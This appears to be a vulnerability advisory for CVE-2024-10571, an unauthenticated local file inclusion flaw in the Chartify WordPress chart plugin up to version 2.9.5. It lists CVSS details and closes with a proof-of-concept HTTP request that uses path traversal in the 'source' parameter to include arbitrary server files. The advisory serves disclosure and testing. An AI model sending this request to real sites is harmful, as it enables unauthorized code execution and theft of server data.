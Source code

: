 # CVE-2024-10571
Chartify – WordPress Chart Plugin <= 2.9.5 - Unauthenticated Local File Inclusion via source

# Description

The Chartify – WordPress Chart Plugin plugin for WordPress is vulnerable to Local File Inclusion in all versions up to, and including, 2.9.5 via the 'source' parameter. This makes it possible for unauthenticated attackers to include and execute arbitrary files on the server, allowing the execution of any PHP code in those files. This can be used to bypass access controls, obtain sensitive data, or achieve code execution in cases where images and other “safe” file types can be uploaded and included.

## Details

- **Type**: plugin
- **Slug**: chart-builder
- **Affected Version**: 2.9.5
- **CVSS Score**: 9.8
- **CVSS Rating**: Critical
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- **CVE**: CVE-2024-10571
- **Status**: Active

POC
---
```
POST /wp-admin/admin-ajax.php?action=add&source=../../../../../../../../../../../../var/www/html/poc&type=chart-js HTTP/1.1
Host: wp.local
Content-Length: 63
Content-Type: application/x-www-form-urlencoded

action=ays_chart_admin_ajax&function=display_plugin_charts_page
```
